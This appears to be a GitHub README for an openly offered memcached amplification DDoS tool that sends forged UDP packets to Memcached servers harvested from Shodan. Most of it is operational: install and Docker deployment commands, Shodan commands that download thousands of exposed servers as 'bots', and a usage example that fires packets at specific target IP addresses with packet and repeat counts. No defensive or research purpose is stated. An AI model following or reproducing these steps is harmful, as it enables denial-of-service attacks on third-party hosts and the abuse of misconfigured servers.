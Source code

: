 # MEMCRASHED DDOS EXPLOIT TOOL

* Author: [@037](https://twitter.com/037)

This tool allows you to send forged UDP packets to Memcached servers obtained from Shodan.io

### Prerequisites

The only thing you need installed is Python 3.x

```
apt-get install python3
```

You also require to have Scapy and Shodan modules installed
```
pip install scapy
```

```
pip install shodan
```

### Using Shodan API

This tool requires you to own an upgraded Shodan API

You may obtain one for free in [Shodan](https://shodan.io/) if you sign up using a .edu email

![alt text](https://raw.githubusercontent.com/649/Memcrashed-DDoS-Exploit/master/2.png)
![alt text](https://raw.githubusercontent.com/649/Memcrashed-DDoS-Exploit/master/1.png)
![alt text](https://raw.githubusercontent.com/649/Memcrashed-DDoS-Exploit/master/3.png)
![alt text](https://raw.githubusercontent.com/649/Memcrashed-DDoS-Exploit/master/4.png)


### Using Docker

##### [Demo](https://asciinema.org/a/v1AEEa17xzqUfyW4pEIS0JONW)

You may deploy this tool to the cloud using a light Alpine Docker image.

> Note: Make sure to explicitly enter 'y' or 'n' to the interactive prompt

```bash
git clone https://github.com/649/Memcrashed-DDoS-Exploit.git
cd Memcrashed-DDoS-Exploit
echo "SHODAN_KEY" > api.txt
docker build -t memcrashed .
docker run -it memcrashed

```

### Download Bots

To avoid slow (and rate limited) API calls to Shodan API, you can download all known memcached servers using `shodan` tool.

```shell
$ python3 -m pip install shodan
$ shodan init <KEY>
$ shodan download --limit 20000 bots.json.gz product:"Memcached" port:11211
$ gzip -d bots.json.gz
$ cat bots.json | jq '.ip_str' -r | grep -E '([0-9]{1,3}\.){3}[0-9]{1,3}' > bots.txt 
```

When running `Memcrasched.py` make sure to reply "N" for using Shadon API.

### Memfoxed

`memfoxed` is a simplified script. Changes made:

* configuration options are passed using CLI args (rather than with interactive questions)
* supports multiple targets

Example:

```shell
$ sudo ./memfoxed.py \
    -t 109.207.14.3:53 \
    -t 193.164.146.24:23 \
    --num-packets 10 \
    --repeat 100 \
    --bots-config ./bots.txt
```

Note that `--bots-config` expects file with line-separated list of IP address of Memcached servers (e.g. see "Download Bots" section how to get one using Shodan API). 
